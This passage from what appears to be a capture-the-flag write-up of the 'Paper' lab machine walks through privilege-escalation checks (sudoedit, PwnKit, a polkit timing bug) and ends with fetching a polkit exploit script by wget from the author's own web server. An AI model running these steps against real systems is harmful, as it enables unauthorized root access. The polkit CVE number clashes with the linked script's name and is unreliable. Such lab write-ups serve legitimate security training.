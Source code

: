 To check, you run `sudoedit -s /`. If this returns an error message
`sudoedit: /: not a regular file`, then it's vulnerable. If it returns
the `sudoedit` usage, it's not. Paper is not vulnerable:



    [dwight@paper shm]$ sudoedit -s /
    usage: sudoedit [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...



### PwnKit - Fail

CVE-2021-4034 is another bug discovered by Qualys, this time in
`pkexec`, which is referred to as PwnKit. [This blog
post](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)
goes into all the detail. The exploit abuses a mishandling of an empty
`argc` (where parameters are passed into a Linux program) to get
execution through `pkexec` which runs as root (via SetUID) by default.

The version of `pkexec` on Paper is likely vulnerable to this exploit,
but there's an issue:



    [dwight@paper shm]$ ls -l /usr/bin/pkexec 
    -rwxr-xr-x. 1 root root 29816 May 11  2019 /usr/bin/pkexec



`pkexec` isn't set as SetUID, and thus, exploiting it will only return
execution as the user that runs it, which isn't useful.

### Polkit CVE

CVE-2021-3650 is a vulnerability in polkit discovered by Keven Backhouse
of the [GitHub Security Lab](https://securitylab.github.com/). This
attack is a timing attack against polkit, and by killing the process at
the right time, it ends up skipping the authentication and allow actions
such as creating an account with `sudo` privs and setting the password..

The author of Paper happens to have a
[script](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)
for this exploit on their GitHub. I'll save a copy on my VM, and start a
webserver in that directory (`python3 -m http.server 80`). Then I'll
fetch the script with `wget` to Paper:



    [dwight@paper shm]$ wget 10.10.14.6/cve-2021-3650.sh
    --2022-06-05 15:25:11--  http://10.10.14.6/cve-2021-3650.sh
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 9627 (9.4K) [text/x-sh]
    Saving to: ‘cve-2021-3650.sh’

    cve-2021-3650.sh                                     100%[=================================>]    9.40K  --.-KB/s    in 0.005s  
